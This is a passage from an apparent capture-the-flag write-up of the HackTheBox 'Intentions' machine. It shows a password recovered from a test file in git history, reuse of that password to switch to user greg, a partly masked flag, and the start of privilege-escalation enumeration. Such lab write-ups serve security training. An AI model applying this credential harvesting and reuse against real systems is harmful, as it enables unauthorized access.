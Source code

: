 Turned out, yes. It does. Here is content of **./tests/Feature/Helper.php** in the previous commit:
```php
<?php
namespace Tests\Feature;
use Tests\TestCase;
use App\Models\User;
use Auth;

class Helper extends TestCase {
	public static function getToken($test, $admin = false) {
		if($admin) {
			$res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);	
			return $res->headers->get('Authorization');
		} else {
	
			$res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
			return $res->headers->get('Authorization');
		}
	}
}
```

Trying this new password for user greg on the machine:
```bash
www-data@intentions:/var/www/html/intentions$ su greg
Password:
$ pwd
/var/www/html/intentions
$ bash
greg@intentions:/var/www/html/intentions$ id
uid=1001(greg) gid=1001(greg) groups=1001(greg),1003(scanner)
```

Reading flag:
```
greg@intentions:/var/www/html/intentions$ cd
greg@intentions:~$ cat user.txt
c9a15********************87185
```
---

### Privilege Escalation to ROOT

First things first, let's see if greg has some privs:
```bash
greg@intentions:~$ sudo -l
[sudo] password for greg:
Sorry, user greg may not run sudo on intentions.
```

Nothing, but we can see there are 2 interesting files in the gregs home dir:
`dmca_check.sh` and `dmca_hashes.test`
```bash
greg@intentions:~$ ls -la
total 52
drwxr-x--- 4 greg greg  4096 Jun 19 13:09 .
drwxr-xr-x 5 root root  4096 Jun 10 14:56 ..
lrwxrwxrwx 1 root root     9 Jun 19 13:09 .bash_history -> /dev/null
-rw-r--r-- 1 greg greg   220 Feb  2 18:10 .bash_logout
-rw-r--r-- 1 greg greg  3771 Feb  2 18:10 .bashrc
drwx------ 2 greg greg  4096 Jun 10 15:18 .cache
-rwxr-x--- 1 root greg    75 Jun 10 17:33 dmca_check.sh
-rwxr----- 1 root greg 11044 Jun 10 15:31 dmca_hashes.test
drwxrwxr-x 3 greg greg  4096 Jun 10 15:26 .local
-rw-r--r-- 1 greg greg   807 Feb  2 18:10 .profile
```